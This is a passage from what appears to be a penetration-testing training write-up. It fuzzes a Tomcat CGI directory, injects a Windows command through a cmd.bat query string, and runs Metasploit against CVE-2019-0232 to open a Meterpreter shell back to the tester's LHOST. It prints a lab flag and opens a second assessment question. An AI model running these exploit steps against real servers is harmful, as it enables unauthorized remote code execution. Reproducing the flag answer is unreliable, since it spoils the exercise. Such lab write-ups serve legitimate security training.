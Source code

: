 ```
 :: Method           : GET
 :: URL              : http://10.129.201.89:8080/cgi/FUZZ.bat
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

cmd                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 183ms]
:: Progress: [4614/4614] :: Job [1/1] :: 328 req/sec :: Duration: [0:00:18] :: Errors: 0 ::

```


```
http://10.129.201.89:8080/cgi/cmd.bat?&dir+C:\Users\Administrator\Desktop
```


I used metasploit:

```
msfconsole -q
search CVE-2019-0232
use 0
set RHOSTS 10.129.73.151
set LHOST 10.10.14.147
set ForceExploit true
set targeturi /cgi/cmd.bat
run
```

In the meterpreter session now you can type the flag:

```
type c:\Users\Administrator\Desktop\flag.txt
```

Results: f55763d31a8f63ec935abd07aee5d3d0



### Attacking Common Applications - Skills Assessment II

During an external penetration test for the company Inlanefreight, you come across a host that, at first glance, does not seem extremely interesting. At this point in the assessment, you have exhausted all options and hit several dead ends. Looking back through your enumeration notes, something catches your eye about this particular host. You also see a note that you don't recall about the `gitlab.inlanefreight.local` vhost.

vHosts needed for these questions:

- `gitlab.inlanefreight.local`


**What is the URL of the WordPress instance?**
